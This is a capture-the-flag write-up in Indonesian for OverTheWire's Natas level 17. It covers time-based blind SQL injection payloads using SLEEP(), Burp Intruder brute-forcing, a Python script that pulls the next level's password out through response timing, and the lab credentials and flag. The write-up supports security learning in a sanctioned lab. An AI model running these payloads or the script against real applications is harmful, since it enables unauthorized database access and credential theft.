 ```yaml
---
layout: default
test_level17
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas17
URL:      http://natas17.natas.labs.overthewire.org

# solve
- login with cred natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
- ketika aku lihat source codenya ini mirip dengan tantangan yang sebelumnya hanya saja tidak terdapat debug echonya
  ![alt text](docs/images/image-55.png)
- disini saya mencoba untuk melakukan sleep command sql
  ```bash
  # ketika saya coba ini dia menunggu 5 detik dan kurasa ini berhasil
  # kita mengetahui bahwa terdapat user natas18

  natas18" AND SLEEP(2);-- #
  # lama requestnya (true)
  
  natas19" AND SLEEP(2);-- #
  # cepat requestnya (false)
  ```
- kita sudah mengetahui cara mendapatkan true dan falsenya
  ```bash
  natas18" AND substring(password,1,1) = 'a' AND sleep(2);-- #
  natas18" AND BINARY substring(password,1,1) = 'a' AND sleep(2);-- #
  ```
- saya mencoba menggunakan burp suite untuk melakukan brute force
  ![alt text](docs/images/image-56.png)
  dan saya melihat angka 6 memiliki received paling lama yaitu 2000an dan ketika saya request item again ttp besar jadi saya beramsumsi bahwa huruf pertama nya adalah angka 6
  ![alt text](docs/images/image-57.png)
- lalu saya mencoba intruder lagi hanya saja dengan 2 variable agar lebih cepat
  ![alt text](docs/images/image-58.png)
  ![alt text](docs/images/image-59.png)
  ```bash
  6....b.d.j..lp.g....b.....l..g
  ```
  - dan disini jika kita lihat setelah 634 of 1900 aku telah mendapatkan setengah jawabanya meskipun sebenenrya ketika di coba ada juga beberapa yang error
  - namun karena lama jadi aku mencoba menggunakan python saja agar mempercepat proses brute force

## saya juga menemukan cara menggunakan python
```py
import requests
import re
from time import *

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "natas17"
password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"

Url = "http://natas17.natas.labs.overthewire.org"

session = requests.session()

current_password = list()

while(True):
    for character in characters:
        print("Trying with: " + "".join(current_password) + character)
        startTime = time()
        response = session.post(Url, data={"username": 'natas18" AND password LIKE BINARY "' + "".join(current_password) + character + '%" AND SLEEP(2) #'},auth=(username, password))
        endTime = time()
        if endTime - startTime > 2:
            current_password.append(character)
            break
    if len(current_password) == 32:
            break
```

# flag
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
